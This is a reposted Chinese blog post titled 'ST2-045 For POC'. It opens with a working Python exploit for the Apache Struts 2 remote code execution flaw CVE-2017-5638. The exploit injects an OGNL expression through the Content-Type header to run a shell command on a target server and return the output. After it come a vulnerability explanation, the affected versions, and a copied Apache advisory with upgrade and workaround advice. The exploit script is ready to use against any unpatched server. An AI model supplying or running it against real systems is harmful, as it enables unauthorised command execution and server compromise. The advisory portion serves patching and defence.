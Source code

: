 ```yaml
---
title: "ST2-045 For POC"
id: csdn63252440
---
```


> **转载请注明：** 转载自[Legend‘s BLog](http://www.legendsec.org/)
> 
> **本文链接地址:** [ST2-045 For POC](http://www.legendsec.org/1752.html)

利用方法：

```
#! /usr/bin/env python
# encoding:utf-8
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

def poc():
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()

poc()
```

漏洞说明：

Apache Struts 2被曝存在远程命令执行漏洞，漏洞编号S2-045，CVE编号CVE-2017-5638，在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。

**漏洞编号：**

CVE-2017-5638

**漏洞名称：**

基于 Jakarta plugin插件的Struts远程代码执行漏洞

**官方评级：**

高危

**漏洞描述**：

恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。

**漏洞利用条件和方式：**

黑客通过Jakarta 文件上传插件实现远程利用该漏洞执行代码。

1.  基于Jakarta（Jakarta Multipart parser）插件的文件上传功能

2.  恶意攻击者精心构造Content-Type的值

**通过版本比对定位漏洞原因：**

1.  `\core\src\main\java\org\apache\struts2\dispatcher\multipart\MultiPartRequestWrapper.java`
2.  `core\src\main\java\org\apache\struts2\dispatcher\multipart\JakartaMultiPartRequest.java`
3.  `\core\src\main\java\org\apache\struts2\dispatcher\multipart\JakartaStreamMultiPartRequest.java`

```
if  (LocalizedTextUtil.findText(this.getClass(), errorKey, defaultLocale, null,  new Object[0]) == null) {
    return LocalizedTextUtil.findText(this.getClass(),  “struts.messages.error.uploading”, defaultLocale, null, new  Object[] { e.getMessage() });
 } else {
    return  LocalizedTextUtil.findText(this.getClass(), errorKey, defaultLocale, null,  args);
}
```

**漏洞影响范围：**

*   Struts 2.3.5 – Struts 2.3.31
*   Struts 2.5 – Struts 2.5.10
*   Created by [Lukasz Lenart](https://cwiki.apache.org/confluence/display/~lukaszlenart), last modified [yesterday at 01:14 PM](https://cwiki.apache.org/confluence/pages/diffpagesbyversion.action?pageId=68717257&selectedPageVersions=4&selectedPageVersions=5)

**Summary**

Possible Remote Code Execution when performing file upload based on Jakarta Multipart parser.[td]

| Who should read this | All Struts 2 developers and users |
| --- | --- |
| Impact of vulnerability | Possible RCE when performing file upload based on Jakarta Multipart parser |
| Maximum security rating | High |
| Recommendation | Upgrade to [Struts 2.3.32](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32) or [Struts 2.5.10.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1) |
| Affected Software | Struts 2.3.5 – Struts 2.3.31, Struts 2.5 – Struts 2.5.10 |
| Reporter | Nike Zheng |
| CVE Identifier | CVE-2017-5638 |

**Problem**

It is possible to perform a RCE attack with a malicious Content-Type value. If the Content-Type value isn’t valid an exception is thrown which is then used to display an error message to a user.

**Solution**

If you are using Jakarta based file upload Multipart parser, upgrade to Apache Struts version 2.3.32 or 2.5.10.1\. You can also switch to a different [implementation](https://cwiki.apache.org/confluence/display/WW/File+Upload#FileUpload-AlternateLibraries) of the Multipart parser.

**Backward compatibility**

No backward incompatibility issues are expected.

**Workaround**

Implement a Servlet filter which will validate Content-Type and throw away request with suspicious values not matching multipart/form-data.